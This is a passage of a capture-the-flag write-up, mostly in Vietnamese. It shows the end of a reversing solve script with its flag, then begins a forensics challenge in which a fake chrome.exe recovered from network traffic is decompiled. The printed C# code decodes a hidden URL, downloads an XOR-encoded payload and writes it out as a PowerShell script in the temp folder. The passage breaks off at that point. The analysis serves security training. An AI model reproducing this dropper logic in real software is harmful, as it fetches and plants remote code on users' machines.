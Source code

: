 ```python
            key += c
            break
# print(len(key))
print(key)
# r4al_vm_isnt_it?
```

> `HCMUS-CTF{r4al_vm_isnt_it?}`

### Forensics/Download Chrome

> User ran a strange file. Suspicious behavior detected. Find the flag.

Challenge mô tả user đã chạy 1 file lạ với hành vi đáng ngờ trên hệ thống.
Phân tích file `traffic.pcapng` thì thấy các file khả nghi, export ra để theo dõi:

![image](https://hackmd.io/_uploads/BkeqszqOel.png)


Đây là `chrome.exe`

![image](https://hackmd.io/_uploads/SkuZnMqulg.png)

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Text;

// Token: 0x02000002 RID: 2
internal class Program
{
	// Token: 0x06000001 RID: 1 RVA: 0x00002050 File Offset: 0x00000250
	private static string XorDecode(byte[] data, string key)
	{
		byte[] array = new byte[data.Length];
		for (int i = 0; i < data.Length; i++)
		{
			array[i] = (data[i] ^ (byte)key[i % key.Length]);
		}
		return Encoding.UTF8.GetString(array);
	}

	// Token: 0x06000002 RID: 2 RVA: 0x000020A4 File Offset: 0x000002A4
	private static void Main()
	{
		try
		{
			ServicePointManager.SecurityProtocol = 3072;
			string text = Path.Combine(Path.GetTempPath(), "temp_script.ps1");
			string text2 = "ABcZBUlMW1cLAhwEXltDREpQWlMACgcFWFNdWgMMAwNAQ1pQBA8=";
			string key = "hcmusctf2025";
			string s = text2.Replace('@', 'a');
			byte[] data = Convert.FromBase64String(s);
			string text3 = Program.XorDecode(data, key);
			Console.WriteLine("URL: " + text3);
			using (WebClient webClient = new WebClient())
			{
				string s2 = webClient.DownloadString(text3);
				byte[] data2 = Convert.FromBase64String(s2);
				string text4 = Program.XorDecode(data2, key);
				Console.WriteLine("Content: ");
				Console.WriteLine(text4);
				File.WriteAllText(text, text4);
```